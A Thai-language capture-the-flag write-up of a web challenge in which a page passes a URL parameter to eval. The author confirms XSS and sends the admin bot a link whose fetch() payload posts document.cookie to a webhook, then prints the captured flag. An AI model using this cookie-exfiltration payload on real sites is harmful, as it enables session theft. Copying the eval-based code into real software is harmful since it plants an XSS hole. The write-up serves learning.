






:::note
โจทย์ระดับ**ยาก**ของหมวดหมู่ Web Application ที่มีคน Solve ได้น้อยมากๆๆๆ
:::

ถ้าจำไม่ผิด คำอธิบายจะบอกว่า ให้รันโค้ด Javascript ให้ได้ และส่งข้อความไปยังผู้ดูแลระบบ มั้ง

ซึ่งถ้ามาแนว report แบบนี้ หนีไม่พ้น XSS แน่นอน อยู่ที่ว่าจะป้องกันดีขนาดไหน

อย่างแรกที่ผมทำก็คือ view page source เลย

จะพบโค้ดชุดนี้

```js
<script>
    // JavaScript for showing stickers based on URL parameter
    function showSticker() {
        const params = new URLSearchParams(window.location.search);
        const stickerId = params.get('id');
        if (stickerId) {
            document.getElementById('sticker-display').innerHTML = `<h3>${stickerId}</h3>`;
            // Vulnerable to XSS if 'id' contains malicious script code
            eval(stickerId);
        }
    }
</script>
```

ซึ่ง มันก็เขียนไว้เลยว่ามีช่องโหว่ บอกด้วยว่าช่องโหว่อะไร และทำยังไง

เหลือแค่ให้ exploit script มาด้วย น่าจะจบแล้วข้อนี้ แต่ไม่มีมาให้หรอก😳

แล้วผมก็ลองเช็คดูว่ามัน XSS ได้จริงป่าว ด้วยการใส่คำสั่ง Javascript ง่ายๆเข้าไป



โอเค แจ๋ววว



ต่อไปผมจะลองให้มัน Trigger ไปที่ webhook ที่ผมเตรียมไว้

`http://thctt24.junior.web3.local/?id=fetch(%22https://webhook.site/redacted%22)`



โอเคมาจริงง



ผมก็เลย เอาลิ้งนั้นไปส่งให้ผู้ดูแลระบบ



ที่ผมต้องเพิ่ม :3000 ต่อท้าย domain ก็คือ ใน docker ผมเปิดเป็น port 3000 ไว้

นี่่่ เราจะเห็นว่า request มาจากเครื่องผู้ดูแลระบบจริง ไม่ใช่เครื่องเรา


ในเมื่อผู้ดูแลเข้ามาในหน้านี้ได้แล้ว ยังไงก็ต้องมี Cookie แนบมาด้วยแน่นอน เลยขอส่องหน่อยละกัน

`http://thctt24.junior.web3.local:3000/?id=fetch(%22https://webhook.site/redacted/%22%2Bdocument.cookie)`

โอเค ผ่านฉลุยย


เราก็จะได้ FLAG มาแล้วว



อันนี้ FLAG จากในงานแข่งเลย

`THCTT24{840524576a4723b08d0ec38db4fb384a}`